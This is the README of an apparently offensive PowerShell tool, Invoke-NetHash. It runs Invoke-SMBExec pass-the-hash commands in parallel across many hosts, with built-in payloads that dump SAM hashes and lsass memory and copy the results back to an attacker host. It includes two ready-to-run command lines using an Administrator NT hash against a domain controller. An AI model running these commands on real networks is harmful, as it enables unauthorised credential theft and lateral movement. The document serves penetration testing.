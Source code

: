 # Invoke-NetHash - The basic idea

The function of Invoke-NetHash is based on the idea to execute commands on a high number of clients by use of the NT Hash. 

The engine for the whole process is the awsome Invoke-SMBExec script (written by @kevin_robertson). What Invoke-NetHash adds is a parallely execution of Invoke-SMBExec with a wide range of possible inputs. 
Next to the possability to execute custom commands I added builtin functions which are quite handy for penetration testing. 

* Invoke-PowerDump - originally written by Kathy Peters, Josh Kelley (winfang) and Dave Kennedy (ReL1K) - I added support for the latest Windows versions so by use of this function the NT Hashes of the local accounts can be extracted from the registry.
* Invoke-LSADump - a very handy oneliner to dump the LSA Process

If those payloads are used in combination with Invoke-NetHash - the function (e.g. PowerDump) will be executed on every host targeted, the result written to a file and copied back to the attacker host.
For this whole process the script relies on SMB shares - it will create an share and will remove if after the run completed. This share is used to load the payload and to transfer the result of the different targets. 

I hope this scripts brings some use to you.

# Usage 

The simplest usage is to use the built in functions for PowerDump (the extraction of hashes from the local SAM Database aka the registry) or LSADump which creates a dump of the lsass process of the remote computer.

## PowerDump

The fastest command for the usage against a single target is:
```powershell
 Invoke-NetHash -Hosts dc -Username 'Administrator' -Hash 'e19ccf75ee54e06b06a5907af13cef42' -Powerdump $true -UserDomain "contoso.local" -WriteVerbose $true
```

## LSADump 

The fastest command for the usage against a single target is:
```powershell
 Invoke-NetHash -Hosts dc -Username 'Administrator' -Hash 'e19ccf75ee54e06b06a5907af13cef42' -LSAdump $true -UserDomain "contoso.local" -WriteVerbose $true
```

# Future Plans

Currently the script is very raw and will be enhanced down the road (some things are quite ugly but it is working and I will replace those part with time) - next to the code itself I plan to integrate an interactive shell triggered by SMBExec.
 